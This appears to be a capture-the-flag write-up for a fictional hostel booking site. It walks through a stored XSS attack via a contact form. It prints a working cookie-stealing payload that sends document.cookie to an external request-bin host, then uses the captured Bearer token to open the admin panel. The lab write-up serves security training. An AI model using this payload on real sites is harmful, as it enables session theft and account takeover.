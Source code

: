 #### NOTE: The challenge is a bit buggy and will produce the final flag some times, and in other times you will have to repeat the cookie manipulation part multiple times
# Booking
## Challenge Description:
On your last vacation day in the "Wild Moose Hostel", the hostel's manager heard you discussing your full-time job as a penetration tester with other guests.<br>
She offered you to stay an additional night, free of charge, in exchange for assistance regarding a suspicion they have based on a security issue.<br>
According to her, they noticed several logins to their admin accounts at late hours, which none of the actual admins could confirm as valid.<br>

#### Your goals<br>
☛ Find the vulnerable functionality on the web application.<br>
☛ Find a way to compromise an admin account.<br>
☛ Gain access to the hostel's admin panel.<br>


## Process:


<p align="center">
        <kbd align="center">
          <img src="Images/Booking_01.png"/>
        </kbd> 
</p><br>

Sign up and create an account. The credentials don't matter all that much, just remember them. <br>

<br><p align="center">
        <kbd align="center">
          <img src="Images/Booking_02.png"/>
        </kbd> 
</p><br>
After creating an account, sign in and go to 'My Moose'.<br>
Scroll down to the 'Contact Us' section.<br>
<br><p align="center">
        <kbd align="center">
          <img src="Images/Booking_03.png"/>
        </kbd> 
</p><br><br>
Go to this site https://pipedream.com/requestbin in order to create a public bin to continue the process<br> 
<br><p align="center">
        <kbd align="center">
          <img src="Images/Booking_04.png"/>
        </kbd> 
</p><br><br>
Copy the endpoint link <br>
<br><p align="center">
        <kbd align="center">
          <img src="Images/Booking_05.png"/>
        </kbd> 
</p><br><br>
Go to this site https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md that contains Reflected XSS injection scripts for stealing cookies and use the 3rd script<br>
<br><p align="center">
        <kbd align="center">
          <img src="Images/Booking_06.png"/>
        </kbd> 
</p><br><br>
In the 'Contact Us' section, place the script with the endpoint link inside of it, for example: <br>

#### <img src=x onerror=this.src='https://enqewxf0bhc69.x.pipedream.net/?'+document.cookie;>
<br>
<br><p align="center">
        <kbd align="center">
          <img src="Images/Booking_07.png"/>
        </kbd> 
</p><br><br>
Now you should return to the public bin page and wait a few moments for the requests to appear. <br>
<br><p align="center">
        <kbd align="center">
          <img src="Images/Booking_08.png"/>
        </kbd> 
</p><br><br>
What you will need now is the Bearer token that is highlighted in the picture. Double click it and copy. <br>
Return to the Moose site and open up the 'Cookie Editor' extension, and replace the value section with the Bearer token that we just copied. Save it and refresh the page<br>
<br><p align="center">
        <kbd align="center">
          <img src="Images/Booking_09.png"/>
        </kbd> 
</p><br><br>
Now you should see a new yellow button next to 'My Moose' that says 'Admin Panel'. <br>
<br><p align="center">
        <kbd align="center">
          <img src="Images/Booking_10.png"/>
        </kbd> 
</p><br><br>
Now this is the buggy part. Enter the admin panel and you will either see a blank page, or you will see the flag. <br>
If you don't see the flag, repeat the login part and redo the cookie edit. Repeat until it works

